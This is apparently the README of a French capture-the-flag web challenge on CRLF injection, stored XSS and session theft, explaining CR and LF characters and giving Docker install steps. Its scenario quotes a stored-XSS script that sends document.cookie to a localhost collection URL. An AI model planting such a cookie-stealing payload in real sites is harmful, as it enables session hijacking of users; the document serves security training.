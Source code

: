 # CTF Web Client - CRLF + XSS Stored + Vol de session

## Présentation du CTF 
**ID** 26 dans **les CTFs de Cyrhades**


# la faille CRLF
CR et LF sont des caractères de contrôle ou bytecode qui peuvent être utilisés pour indiquer une fin de ligne dans un fichier texte.

CR = Carriage Return (Retour chariot) (\r, 0x0D en hexadécimal, 13 en décimal) — déplace le curseur au début de la ligne sans avancer à la ligne suivante.
LF = Line Feed, Saut de ligne (\n, 0x0A en hexadécimal, 10 en décimal) — déplace le curseur vers la ligne suivante sans retour au début de la ligne.
Un CR tout de suite suivi par un LF (CRLF, \r\n, ou 0x0D0A) descend le curseur vers la ligne suivante et le place au début de la ligne.

-------------------

Infiltrer les rangs du pirate informatique et récupérer ce qui nous appartient (le flag ^^) !

Nos systèmes de défense ont détecté une attaque sournoise qui s'est révélée être une injection XSS. 
Le but malveillant de cette attaque est de s'emparer du cookie de session.

Voici le script que notre administrateur réseau a découvert, tendant un piège perfide :

```<script>
window.location='https://localhost/recup?cookie='+document.cookie;
</script>
```

Pensez-vous posséder les compétences et l'audace nécessaires pour retourner la situation ? 
Pourchasser le pirate dans son propre royaume virtuel et reprennez le contrôle !


-----------

## Installation manuel
Vous n'utilisez pas l'application **les CTFs de Cyrhades** ? C'est dommage !
Mais voici comment installer ce CTF manuellement :

> git clone https://github.com/Hack-Oeil/CRLF_XSS_STORED_SESSION.git

> cd CRLF_XSS_STORED_SESSION && docker compose up
